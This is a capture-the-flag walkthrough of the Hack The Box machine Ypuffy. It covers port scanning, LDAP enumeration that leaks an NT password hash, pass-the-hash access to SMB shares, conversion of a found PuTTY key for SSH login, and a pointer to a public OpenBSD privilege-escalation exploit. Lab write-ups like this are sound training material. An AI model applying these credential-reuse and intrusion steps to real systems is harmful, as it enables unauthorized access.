# [Ypuffy](https://app.hackthebox.com/machines/Ypuffy)

```bash
nmap -p-  --min-rate 10000 10.10.10.107 -Pn
```




After detection of open ports, let's do greater nmap scan for these ports.

```bash
nmap -A -sC -sV -p22,80,139,389,445 10.10.10.107 -Pn
```




From nmap scan result, I see that `hackthebox.htb` domain name is resolved for this ip address. That's why I add this record into `/etc/hosts` file.


Let's enumerate `LDAP` more via `nmap` tool.

```bash
nmap -n -sV --script "ldap* and not brute" 10.10.10.107
```



I find some credentials for `bob8791` and `alice1978` users, let's check them.

I check `sambaNTPassword` for `alice1978` user via `smbmap` command.

```bash
smbmap -u alice1978 -p 'aad3b435b51404eeaad3b435b51404ee:0B186E661BBDBDCF6047784DE8B9FD8B' -H 10.10.10.107
```




Note: Here for `-p` flag's value, I add `LM HASH` as arbitrary string, it will accepted.

As you see, this user has `READ,WRITE` permission for `alice` share. Let's access to here via `smbclient` command.

```bash
smbclient \\\\10.10.10.107\\alice -U alice1978%0B186E661BBDBDCF6047784DE8B9FD8B --pw-nt-hash
```



I find `my_private_key.ppk` file from here which belongs to `PuTTy`. And this key file is used for `Windows` machines.





But my target is `Linux` machine, that's why I need to convert `.ppk` key into `OpenSSH` key file.

For this, I will use `puttygen` command.
```bash
puttygen my_private_key.ppk -O private-openssh -o alice.pem
```




Let's connect into machine via this `OpenSSH RSA` file.
```bash
chmod 600 alice.pem
ssh -i alice.pem alice1978@10.10.10.107
```

user.txt




For `Privilege Escalation`, I just run `uname -a` to learn information about machine.




So, I check this version of `OpenBSD` to find publicly known exploit and found [this](https://www.exploit-db.com/exploits/45742).

Let's use this.





root.txt

